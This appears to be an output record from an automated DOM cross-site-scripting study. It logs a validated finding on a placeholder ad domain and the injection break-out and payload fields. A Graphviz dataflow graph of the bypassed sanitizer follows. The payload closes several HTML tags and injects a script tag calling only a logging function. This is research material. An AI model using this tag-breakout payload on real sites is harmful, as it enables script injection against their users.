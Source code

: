// Finding: f399a9c1-deaf-4ae3-92a1-fdcae1e605af
// Finding.url: https://o1.example285.com/sjsc/o1/ff2.html?;p=src%3D664077"></iframe></style></script></object></embed></textarea><script>taintfoxLog('934dae82dbe44db58cac6a7272e8ea7f')</script><!--/*;;n=203;c=1651792/485404/223057;s=7273;d=9;w=300;h=250
// Finding.parentloc: https://o1.example285.com/sjsc/o1/ff2.html?;p=src%3D664077"></iframe></style></script></object></embed></textarea><script>taintfoxLog('934dae82dbe44db58cac6a7272e8ea7f')</script><!--/*;;n=203;c=1651792/485404/223057;s=7273;d=9;w=300;h=250
// Finding.domain: o1.example285.com
// Finding.base_domain: example285.com
// Finding.source: document.documentURI
// Finding.sink: document.write
// Sanitizer.score: 2
// Sanitizer.name: zd_lc_load_targetting_criteria
// Sanitizer.location: https://o1.example285.com/sjsc/o1/ff2.html?;p=src%3D664077"></iframe></style></script></object></embed></textarea><script>taintfoxLog('934dae82dbe44db58cac6a7272e8ea7f')</script><!--/*;;n=203;c=1651792/485404/223057;s=7273;d=9;w=300;h=250 - zd_lc_load_targetting_criteria:1071:8
// Finding.begin: 435
// Finding.end: 440
// Finding.original_uuid: f2892f45-73a2-491e-b806-34b3156588d4
// Finding.TwentyFiveMillionFlowsId: -1966861403
// Finding.script: https://o1.example285.com//cgi/k/20395068/2304/0/0/204651792/204651792//0/203/7273//1000005/i.js
// Finding.line: 32
// Exploit.uuid: 934dae82-dbe4-4db5-8cac-6a7272e8ea7f
// Exploit.success: true
// Exploit.status: validated
// Exploit.method: C
// Exploit.type: html
// Exploit.token: attribute
// Exploit.content: href
// Exploit.quote_type: "
// Exploit.tag: a
// Exploit.break_out: src%3D664077"></iframe></style></script></object></embed></textarea><script>
// Exploit.break_in: </script><!--/*
// Exploit.payload: src%3D664077"></iframe></style></script></object></embed></textarea><script>taintfoxLog(1)</script><!--/*
// Exploit.begin_taint_url: 40
// Exploit.end_taint_url: 50
// Exploit.replace_begin_url: 40
// Exploit.replace_end_url: 50
// Exploit.replace_begin_param: 104
// Exploit.replace_end_param: 116
// Issues.LargestEncodeAttrStringChain: 0
// Issues.LargestTextFragmentEncodeChainLength: 0
// Issues.HasApproximation: false
// Issues.HasMissingImplementation: false
// Issues.HasInfiniteRegexWithFunctionReplacer: false
// Issues.MergedSplitAndJoins: false
// Issues.HasUrlInRhsOfReplace: false
// Issues.HasUrlInLhsOfReplace: false
// Issues.HasCookieValueInLhsOfreplace: false
// Issues.HasCookieValueInRhsOfreplace: false
// Issues.HasCookieValueInMatchPattern: false
// Issues.HasCookieValueInExecPattern: false
// Issues.RemovedLRConcats: true
// Issues.RemovedReplaceArtifacts: false
// Issues.HasUrlInMatchPattern: false
// Issues.HasUrlInExecPattern: false
// Issues.RemovedNOPreplaces: false
// Issues.Known_sanitizer: false
// DepGraph.hash: -1778279711
// DepGraph.sanitizer_hash: -2135580743
// Removed LR concats 
// Removed LR concats 
// Removed LR concats 
// Removed LR concats 
// Removed LR concats 
// Removed LR concats 
digraph cfg {
n0 [shape=house, label="Input: x"];
n1 [shape=ellipse, label="."];
n2 [shape=box, label="Lit: QQQQ"];
n3 [shape=ellipse, label="preg_replace"];
n4 [shape=box, label="RegExp: /[;]/"];
n5 [shape=box, label="Lit: QQQQ"];
n6 [shape=box, label="Var: x"];
n7 [shape=ellipse, label="str_replace_once"];
n8 [shape=box, label="RegExp: /[&#].*/"];
n9 [shape=box, label="Lit: "];
n10 [shape=box, label="Var: x"];
n11 [shape=box, label="Var: x"];
n12 [shape=doubleoctagon, label="Return: x"];
n1 -> n0;
n1 -> n2;
n6 -> n1;
n3 -> n4;
n3 -> n5;
n3 -> n6;
n10 -> n3;
n7 -> n8;
n7 -> n9;
n7 -> n10;
n11 -> n7;
n12 -> n11;
}